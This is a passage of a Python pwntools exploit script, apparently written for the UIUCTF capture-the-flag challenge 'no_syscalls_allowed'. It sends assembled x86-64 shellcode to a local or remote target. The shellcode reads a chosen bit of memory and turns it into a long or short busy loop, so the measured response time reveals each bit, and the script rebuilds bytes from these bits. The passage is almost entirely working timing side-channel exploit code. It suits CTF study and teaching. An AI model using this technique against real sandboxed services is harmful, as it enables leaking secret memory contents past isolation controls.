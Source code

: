 ```
    cmp rax, r11;
    je loop_finished;
    inc r11;
    imul ebx, 0x13;
    jmp loop_start;
    loop_finished:
    ''')
    target.sendline(payload)
    current = time.time()
    print(target.recvall())
    now = time.time()
    diff = now - current
    print(diff)
    if diff > 0.2:
        print('the bit is 1')
        return 1
    else:
        print('the bit is 0')
        return 0
    target.close()

def get_a_byte(register, reg_offset, local):
    bit_string = ''
    for i in range(8):
        bit_string = str(get_a_bit(register, reg_offset, i, local)) + bit_string
    print(bit_string)
    return int(bit_string, 2)

def start_of_code_bit(reg_offset, bit, local):
    if local == 1:
        target = process('./no_syscalls_allowed')
        pid = gdb.attach(target, "\nb *main+160\n set disassembly-flavor intel\ncontinue")
    else:
        target = remote('no-syscalls-allowed.chal.uiuc.tf', 1337)
    payload = asm('''
    mov rbx, QWORD PTR ds:[rbp+0x10];
    sub rbx, 0x98;
    sub rbx, 0x1000;
    mov al, BYTE PTR ds:[rbx+''' + str(reg_offset) + '''];
    xor r11, r11;
    shr al, ''' + str(bit) +''';
    shl al, 7;
    shr al, 7;
    imul rax, 0x20000000
    loop_start:
    cmp rax, r11;
    je loop_finished;
    inc r11;
    imul ebx, 0x13;
    jmp loop_start;
    loop_finished:
    ''')
    target.sendline(payload)
    current = time.time()
    print(target.recvall())
    now = time.time()
    diff = now - current
    print(diff)
    if diff > 0.2:
        print('the bit is 1')
        return 1
    else:
        print('the bit is 0')
```